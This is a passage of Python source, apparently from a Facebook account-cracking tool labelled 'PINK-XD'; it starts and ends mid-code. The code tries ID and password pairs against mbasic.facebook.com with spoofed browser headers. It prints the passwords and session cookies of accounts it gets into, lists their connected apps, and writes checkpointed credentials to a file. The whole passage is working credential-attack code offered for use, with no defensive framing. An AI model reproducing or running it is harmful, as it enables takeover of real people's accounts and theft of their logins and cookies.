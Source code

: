 					cek =session.get("https://mbasic.facebook.com/settings/apps/tabbed/?tab=active",cookies=coki,headers=headapp).text
					infoakun += (f"\n[bold cyan][â€¢] LIST ACTIVE APPLICATIONS :[/bold cyan] \n")
					apkaktif=re.findall('</i><div class=".*?"><span class=".*?">(.*?)</span><div></div><div class=".*?">(.*?)</div></div>',str(cek))
					nok=1
					for muncul in apkaktif:
						infoakun+= (f"[bold cyan][{nok}] {muncul[0]} {muncul[1]}[/bold cyan]\n")
						nok+=1

					hit=0
					infoakun += (f"\n[bold yellow][â€¢] LIST EXPIRED APPLICATIONS :[/bold yellow]\n")
					apkexp=re.findall('</i><div class=".*?"><span class=".*?">(.*?)</span><div></div><div class=".*?">(.*?)</div></div>',str(cek2))
					hit=0
					for muncul in apkexp:
						hit+=1
						infoakun += (f"[bold yellow][{hit}] {muncul[0]} {muncul[1]}[/bold yellow]\n")
					print('\n')
					statusok = f'[bold green][â€¢] ID       : {idf}\n[â€¢] PASSWORD : {pw}\n[â€¢] COOKIES  : {kuki}[/bold green]\n{infoakun}'
					statusok1 = nel(statusok, style='green')
					cetak(nel(statusok1, title='[bold green]PINK-XD OK[/bold green]'))
					ok+=1
					break
			else:
				continue
		except requests.exceptions.ConnectionError:
			time.sleep(31)
	loop+=1
#--------------------[ CHECK-OPSI-CHEKPOINT ]-------------------#
def ceker(idf,pw):
	global cp
	ua = 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.128 Safari/537.36 FBMF/HUAWEI;FBBD/HUAWEI;FBPN/com.facebook.services;FBDV/EVR-L29;FBSV/10;FBLR/0;FBBK/1;FBCA/arm64-v8a:;]'
	head = {"Host": "mbasic.facebook.com","cache-control": "max-age=0","upgrade-insecure-requests": "1","origin": "https://mbasic.facebook.com","content-type": "application/x-www-form-urlencoded","user-agent": ua,"accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9","x-requested-with": "mark.via.gp","sec-fetch-site": "same-origin","sec-fetch-mode": "navigate","sec-fetch-user": "?1","sec-fetch-dest": "document","referer": "https://mbasic.facebook.com/login/?next&ref=dbl&fl&refid=8","accept-encoding": "gzip, deflate","accept-language": "id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7"}
	ses = requests.Session()
	try:
		hi = ses.get('https://mbasic.facebook.com')
		ho = sop(ses.post('https://mbasic.facebook.com/login.php', data={'email':idf,'pass':pw,'login':'submit'}, headers=head, allow_redirects=True).text,'html.parser')
		jo = ho.find('form')
		data = {}
		lion = ['nh','jazoest','fb_dtsg','submit[Continue]','checkpoint_data']
		for anj in jo('input'):
			if anj.get('name') in lion:
				data.update({anj.get('name'):anj.get('value')})
		kent = sop(ses.post('https://mbasic.facebook.com'+str(jo['action']), data=data, headers=head).text,'html.parser')
		print('\r%s++++ %s|%s ----> CP       %s'%(b,idf,pw,x))
		open('CP/'+cpc,'a').write(idf+'|'+pw+'\n')
		cp+=1
		opsi = kent.find_all('option')
		if len(opsi)==0:
			print('\r%s---> Tap Yes / A2F (Cek Login Di Lite/Mbasic%s)'%(hh,x))
		else:
			for opsii in opsi: